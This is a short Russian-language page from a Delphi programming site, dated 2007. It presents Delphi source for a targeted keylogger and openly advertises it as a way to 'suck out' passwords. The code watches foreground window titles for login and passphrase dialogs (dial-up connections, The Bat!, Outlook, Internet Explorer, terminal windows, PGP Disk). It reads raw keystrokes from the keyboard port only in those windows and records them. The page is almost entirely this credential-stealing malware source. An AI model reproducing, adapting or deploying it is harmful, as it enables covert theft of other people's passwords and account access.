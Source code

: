 Способ высосать пароли из едитов определенных программ
======================================================

::: {.date}
01.01.2007
:::

Вот хороший способ высосать пароли из едитов определенных программ -
Достоинством метода является отсутствие необходимости читать длинющие
keylog - записи, тк кейлоггинг ведется только в интересующих нас окнах
(Terminal, DUN, etc\...).

    unit ksf;
    interface
    uses windows,Controls,Forms, StdCtrls, Classes, ExtCtrls;
     
    type
     Tf1 = class(TForm)
       t1: TTimer;
       m1: TMemo;
       procedure t1t(Sender: TObject);
     end;
     
    var
    f1: Tf1;
    okey:byte;
    KAr:array[1..88] of pchar=('-Esc-','1','2','3','4','5','6','7','8','9',
    '0','-','=','bsp','-Tab-','q','w','e','r','t','y','u','i','o','p',
    '[',']','#13','-Ctrl-','a','s','d','f','g','h','j','k','l',';','''','`',
    '-Shift-','\','z','x','c','v','b','n','m',',','.','/','-Shift-','*',
    'Alt',' ','CL','F1','F2','F3','F4','F5','F6','F7','F8','F9','F10','NL',
    'SL','-Home-','-Up-','-PgUp-','-','-Left-','-*5*-','-Right-','+',
    '-End-','-Down-','-PDn-','-Ins-','-Del-','','','-Unk-','F11','F12');
     
    implementation
    {$R *.DFM}
     
    procedure Tf1.t1t(Sender: TObject);
    var
    key:byte;
    cap0:pchar;
    cap1:string;
    begin
    getmem(cap0,255);
    GetWindowText(GetforegroundWindow,cap0,255); //title активного окна
    cap1:=cap0;
    freemem(cap0);
    if(pos('Connect To',cap1)< > 0)or        //DialUP
      (pos('Установка связи',cap1)< > 0)or   //DialUP
      (pos('Вход в систему',cap1)< > 0)or    //DialUP
      (pos('EType Dialer',cap1)< > 0)or      //DialUP
      (pos('p Networking',cap1)< > 0)or      //DialUP
      (pos('p Connection',cap1)< > 0)or      //DialUP
      (pos('Connecting to',cap1)< > 0)or     //DialUP
      (pos('Connessione a',cap1)< > 0)or     //DialUP
      (pos('Edit User - ',cap1)< > 0)or      //The Bat!
      (pos('Мастер подключения к Интернету',cap1)< > 0)or //MSIE,MSOutlook,etc
      (pos('сетевого пароля',cap1)< > 0)or   //MSIE
      (pos('Свойства: ',cap1)< > 0)or        //MSOutlook
      (pos('Вход - ',cap1)< > 0)or           //MSOutlook
      (pos(' - Receiving mail',cap1)< > 0)or //The Bat!
      (pos('Окно терминала',cap1)< > 0)or    //Terminal
      (pos('Passphrase',cap1)< > 0)          //PGP Disk
    then
    begin
     asm
      in al,60h                 // Читаем из 60h порта нажатую кнопку в al
      mov key,al                // Перемещаем код ключа из al в Key
     end;
     if okey< > key then
     begin
      okey:=key;
      if key< =88 then           // Ловим Key_Down код
      m1.text:=m1.text+kAr[Key]  // И берем по этому коду из массива строку
     end;
    end;
    end;
     
     

<https://delphiworld.narod.ru/>

DelphiWorld 6.0
